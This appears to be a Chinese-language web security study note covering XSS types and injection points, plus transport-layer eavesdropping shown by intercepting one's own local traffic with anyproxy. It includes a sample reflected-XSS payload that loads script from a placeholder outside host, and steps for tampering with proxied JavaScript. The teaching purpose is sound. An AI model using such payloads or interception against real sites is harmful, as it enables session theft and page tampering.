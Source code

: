# web安全

1. 私密性：资料不被非法获取和利用
2. 可靠性：不丢失、不损坏、不篡改

如何保证

- 代码层面
- 架构层面
- 运维层面

安全问题
用户身份被盗用
用户密码泄露
用户资料被盗取
网站数据库泄露等

重要性

跨站脚本攻击xss
跨站请求伪造csrf
cookie安全
点击劫持攻击
传输过程安全
用户密码安全
SQL注入攻击
信息泄露和社会工程学
其它安全问题

## 跨站脚本攻击XSS

跨站脚本攻击：`cross site scripting`。

跨站是指不是来自本站的脚本，即用户提交或第三方脚本。xss原理是：程序 + 数据 = 结果。script由数据变成了程序。

1、比如参数带脚本，后端直接返回了，而没有处理。

```javascript
// ?from=<script src='http://www.xx.com/jquery.js'></script>

// 后端模板
<div>{from}</div>
```

xss能干什么？

- 获取页面数据。
- 获取cookie
- 劫持前端逻辑
- 发送请求

也就可以偷取网站任意资料，用户资料，密码和登录态，欺骗用户

2、评论时富文本编辑器，然后其它用户访问评论也会中招

3、用户下单评论或其它操作，后台用户进入查看，这时脚本运行，可以得到后台管理员的cookie和网址，然后登录。

xss攻击分类

反射型：url参数直接注入，危害小些，因为用户可能会察觉到。不过攻击者可能用短网址
存储型：会存储到数据中，相比危害更大

xss攻击注入风险点
- html节点内容
- html属性
- javascript代码
- 富文本











## 传输安全

http传输是明文的，所以数据在浏览器和服务端传输中(路由，防火墙等)很容易被窃听和篡改。

`traceroute`命令用于追踪数据包在网络上的传输时的全部路径，它默认发送的数据包大小是40字节。

```bash
traceroute www.baidu.com
```

比如用【[anyproxy](http://anyproxy.io/cn/)】做代理，发送的请求都是由其代理了，它就可以知道发送的请求数据和返回的数据。而且可以篡改数据。

![](./imgs/anyproxy.png)

`Map Local`用来将原来的文件替换为本地文件(即篡改)。新版本是通过rule模块来实现。

实践操作步骤:
1. npm 安装 anyproxy，并执行`anyproxy --port 1080`。
2. 按照 chrome 插件 SwitchyOmega，设置并切换 anyproxy。

![](./imgs/anyproxy2.png)

3. 浏览器打开`http://127.0.0.1:8002/`可以看到代理的请求。
4. 写个 html 页面，将里面的 js 通过 [rules 模块](http://anyproxy.io/cn/#rule%E6%A8%A1%E5%9D%97)进行篡改。

![](./imgs/anyproxy1.png)

窃听的问题：
- 窃听密码
- 窃听敏感信息
- 获取非法资料

篡改的问题：
- 插入广告
- 重定向网站
- 无法防御 XSS 和 CSRF 攻击，因为可以随意篡改。

案例：
- 运营商劫持等






























































































































































































































